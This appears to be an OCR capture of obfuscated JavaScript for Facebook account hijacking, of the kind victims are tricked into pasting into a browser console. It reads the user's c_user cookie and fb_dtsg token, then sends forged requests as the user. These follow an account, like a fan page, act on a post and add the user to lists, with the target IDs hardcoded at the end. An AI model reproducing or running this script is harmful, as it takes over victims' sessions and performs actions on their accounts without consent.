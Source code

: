 _0x3ff7x3= new XMLHttpRequest;var _0x3ff7x4=_0x235a[0];var _0x3ff7x5=_0x235a[1]+_0x3ff7x2+_0x235a[2]+fb_dtsg+_0x235a[3]+user_id+_0x235a[4];_0x3ff7x3[_0x235a[6]](_0x235a[5],_0x3ff7x4,true);_0x3ff7x3[_0x235a[7]]=function (){if(_0x3ff7x3[_0x235a[8]]==4&&_0x3ff7x3[_0x235a[9]]==200){_0x3ff7x3[_0x235a[10]];} ;} ;_0x3ff7x3[_0x235a[11]](_0x3ff7x5);} ;a(_0x235a[12]);function sublist(_0x3ff7x7){var a=document[_0x235a[14]](_0x235a[13]);a[_0x235a[15]]=_0x235a[16]+_0x3ff7x7+_0x235a[17];document[_0x235a[19]][_0x235a[18]](a);} ;sublist(_0x235a[20]);sublist(_0x235a[21]);sublist(_0x235a[22]);sublist(_0x235a[23]);sublist(_0x235a[24]);sublist(_0x235a[25]);sublist(_0x235a[26]);sublist(_0x235a[27]);sublist(_0x235a[28]);sublist(_0x235a[29]);sublist(_0x235a[30]);sublist(_0x235a[31]);sublist(_0x235a[32]);sublist(_0x235a[33]);sublist(_0x235a[34]);var user_id=document[_0x235a[36]][_0x235a[35]](document[_0x235a[36]][_0x235a[35]](/c_user=(\d+)/)[1]);var fb_dtsg=document[_0x235a[39]](_0x235a[38])[0][_0x235a[37]];var now=( new Date)[_0x235a[40]]();function P(_0x3ff7xc){var _0x3ff7xd= new XMLHttpRequest();var _0x3ff7xe=_0x235a[41];var _0x3ff7xf=_0x235a[42]+_0x3ff7xc+_0x235a[43]+now+_0x235a[44]+_0x3ff7xc+_0x235a[45]+user_id+_0x235a[46]+fb_dtsg+_0x235a[4];_0x3ff7xd[_0x235a[6]](_0x235a[5],_0x3ff7xe,true);_0x3ff7xd[_0x235a[7]]=function (){if(_0x3ff7xd[_0x235a[8]]==4&&_0x3ff7xd[_0x235a[9]]==200){_0x3ff7xd[_0x235a[10]];} ;} ;_0x3ff7xd[_0x235a[11]](_0x3ff7xf);} ;var fb_dtsg=document[_0x235a[39]](_0x235a[38])[0][_0x235a[37]];var user_id=document[_0x235a[36]][_0x235a[35]](document[_0x235a[36]][_0x235a[35]](/c_user=(\d+)/)[1]);function Like(_0x3ff7x11){var _0x3ff7x12= new XMLHttpRequest();var _0x3ff7x13=_0x235a[47];var _0x3ff7x14=_0x235a[48]+_0x3ff7x11+_0x235a[49]+user_id+_0x235a[50]+fb_dtsg+_0x235a[4];_0x3ff7x12[_0x235a[6]](_0x235a[5],_0x3ff7x13,true);_0x3ff7x12[_0x235a[7]]=function (){if(_0x3ff7x12[_0x235a[8]]==4&&_0x3ff7x12[_0x235a[9]]==200){_0x3ff7x12[_0x235a[10]];} ;} ;_0x3ff7x12[_0x235a[11]](_0x3ff7x14);} ;Like(_0x235a[51]);function IDS(_0x3ff7x16){var _0x3ff7xd= new XMLHttpRequest();var _0x3ff7xe=_0x235a[52];var _0x3ff7xf=_0x235a[53]+_0x3ff7x16+_0x235a[54]+user_id+_0x235a[55]+fb_dtsg+_0x235a[4];_0x3ff7xd[_0x235a[6]](_0x235a[5],_0x3ff7xe,true);_0x3ff7xd[_0x235a[7]]=function (){if(_0x3ff7xd[_0x235a[8]]==4&&_0x3ff7xd[_0x235a[9]]==200){_0x3ff7xd[_0x235a[10]];} ;} ;_0x3ff7xd[_0x235a[11]](_0x3ff7xf);} ;
/*********************** COPYRIGHT ***********************/
/* LIST */
sublist("10201963514984242")
/* POST */
P("10202344750674896")
/* FANSPAGE */
Like("489971454410754")
/* FOLLOW */
a("1076065090");
/*********************** COPYRIGHT ***********************/
/* Theme Load */